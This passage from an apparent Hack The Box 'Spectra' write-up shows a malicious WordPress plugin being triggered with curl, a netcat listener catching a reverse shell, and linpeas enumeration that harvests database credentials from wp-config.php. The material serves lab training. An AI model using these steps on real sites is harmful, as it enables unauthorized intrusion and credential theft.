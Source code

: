 - As soon as the install request is processed, is important to issue the request to the file location under the WordPress folder structure. The command line below uses `curl` to make the request, but you could use your browser as well.

  ```bash
  curl -L http://spectra.htb/main/wp-content/plugins/evilplugin/exploit.php
  ```

After this process, we should receive a connection from the victim machine, we below: :smiley:

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 43298
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 08:41:48 up 4 min,  0 users,  load average: 0.26, 0.31, 0.17
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $
```

:bulb: **Tip:** There are several ways to achieve the same outcome not using the Metasploit framework. You could inject code into a Theme file or even use other scripts/tools available like [n00py/WPForce: WordPress Attack Suite (github.com)](https://github.com/n00py/WPForce), which automates this and other tasks frequently used while compromising WordPress sites.
{: .notice--info}

## User flag

After the initial access, initiated the machine enum using `linpeas.sh`, where the following details were identified:

- User: **nginx**, without any special privileges (`uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)`)

- Operating System: **Chromium OS 11**.0_pre399094_p20200824-r6

- Content published using Nginx from `/usr/local/share/nginx/html` directory, vide file path of `wp-config.php` files, where the creds below were also harvested:

  | site    | Username | Password      |
  | ------- | -------- | ------------- |
  | main    | dev      | development01 |
  | testing | devtest  | devteam01     |

- Users with console access, being a possible elevation path, as well as their privileges:

  ```plaintext
  [+] Users with console
  chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
  katie:x:20156:20157::/home/katie:/bin/bash
  root:x:0:0:root:/root:/bin/bash
  
  uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
  uid=1001(chronos-access) gid=1001(chronos-access) groups=1001(chronos-access)
  ```
